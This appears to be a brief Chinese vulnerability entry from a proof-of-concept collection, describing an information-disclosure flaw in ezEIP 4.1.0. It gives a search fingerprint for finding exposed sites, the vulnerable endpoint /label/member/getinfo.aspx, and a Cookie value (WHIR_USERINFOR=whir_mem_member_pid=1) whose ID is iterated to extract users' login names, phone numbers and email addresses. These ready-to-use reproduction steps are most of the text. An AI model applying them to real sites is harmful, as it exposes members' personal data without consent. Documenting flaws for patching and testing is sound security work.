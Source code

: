 # ezEIP 4.1.0 信息泄露漏洞

## 漏洞描述

ezEIP 4.1.0 存在信息泄露漏洞，通过遍历Cookie中的参数值获取敏感信息

## 漏洞影响

```
ezEIP 4.1.0
```

## 网络测绘

```
"ezEIP"
```

## 漏洞复现

漏洞Url为

```plain
/label/member/getinfo.aspx
```

访问时添加Cookie（通过遍历获取用户的登录名电话邮箱等信息）

```plain
WHIR_USERINFOR=whir_mem_member_pid=1;
```

![](./images/202202162312106.png)